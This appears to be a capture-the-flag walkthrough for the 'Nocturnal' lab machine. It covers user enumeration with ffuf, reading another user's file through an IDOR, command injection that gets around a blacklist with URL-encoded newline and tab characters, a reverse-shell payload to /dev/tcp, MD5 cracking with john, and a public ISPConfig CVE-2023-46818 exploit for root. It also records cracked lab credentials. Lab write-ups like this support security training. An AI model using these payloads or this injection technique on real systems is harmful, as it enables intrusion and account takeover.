

# Nocturnal

Difficulty: Easy
OS: Linux
Category: Offensive


### Reconnaissance

using `nmap -sCV [target] -oN nocturnal-scans` There are only 2 open ports

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I visit the port 80 it’s **nocturnal.htb**. Add the domain to `/etc/hosts` 



Register a user, you will only see a page to uploading a file

I tried uploading a pdf file since it accepts it

If you click the uploaded file it has an endpoint `nocturnal.htb/view.php?username=kali&file=file.pdf` . This means that if you purposely make the *username* wrong or the *file* wrong it will output `User not found` or `File not found`.

This also accepts **odt** files, odt is a zip file

### Enumeration

This means we can enumerate the users

```python
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=1.pdf' -w /usr/share/wordlists/fuzzDicts/userNameDict/user.txt -H 'Cookie: [Cookie]' -mc 200 -fs 2985
```

If you look at your BurpSuite you can see the Content-Length is 2985 at that endpoint above.

This will reveal the following names

```python
admin
test
amanda
tobias
```

Access the user Amanda with `http://nocturnal.htb/view.php?username=amanda&file=1.pdf` . Then get the *privacy.odt* file

Unzip the *odt* file then look at `content.xml` you will see the password inside


Login as *amanda* on the website, and go to Admin Panel


Look at `admin.php` it allows a user to execute command 

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";

<SNIP>

$process = proc_open($command, $descriptor_spec, $pipes);
        if (is_resource($process)) {
            proc_close($process);
        }
```

The vulnerable parameter would be `$password` as per my understanding.

The `$command` will zip the files recursively and name the zipped file based on the current date and time in `$backupFile` . Since `$command` is running in the shell, anything that a user inputs in the `$password` will be executed. However, `$password` has a function…

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
```

Meaning it will blacklist the following characters but not the `%` character. Then a user can put `%0a` a url encoded new line character and any other url encoded character.

Zip the files by executing this in the password


```php
0Abash%09-i%09%3E%26%09/dev/tcp/TARGET/PORT%090%3E%261
```

This will create a bounce shell

This will create a shell and improve your shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'` 

Download the database `nocturnal_database.db` 

By my own choice I simply extracted the full content of the database, it has base64 texts and found this part using cyberchef. I paste it into cyberchef then chose `From Base64` and found the following


Then use a hash identifier or `hashid` it is an `md5` hash. Crack it using *john the ripper* or *hashcat*. I use *john*

```php
john --format=raw-md5 --wordlist=/path/to/rockyou.txt hash.txt 
```

`tobias:slowmotionapocalypse`

Then ssh to `ssh tobias@nocturnal.htb` and get the **FLAG**

### Foothold

Now you’re in SSH as `tobias` , do `netstat -tuln` you will notice there’s `127.0.0.1:8080`

In order for us to view this we need to SSH with the following to forward in our machine

```php
ssh -L 8888:127.0.0.1:8080 tobias@nocturnal.htb
```

Then open this to your browser `127.0.0.1:8888` you will see an ispconfig login panel

Use the following creds `admin:slowmotionapocalypse` You can attempt to crack the hash from admin if you want using the **john** command above.

The following exploit for us to use to gaining a root is https://github.com/ajdumanhug/CVE-2023-46818

> This is a python version of the original php script for the vulnerability affecting ispconfig 3.2.11 and previous versions.
> 

Execute the following command

```python
python3 exploit.py http://127.0.0.1:8888 admin slowmotionapocalypse
```

Then get the *root* **FLAG**


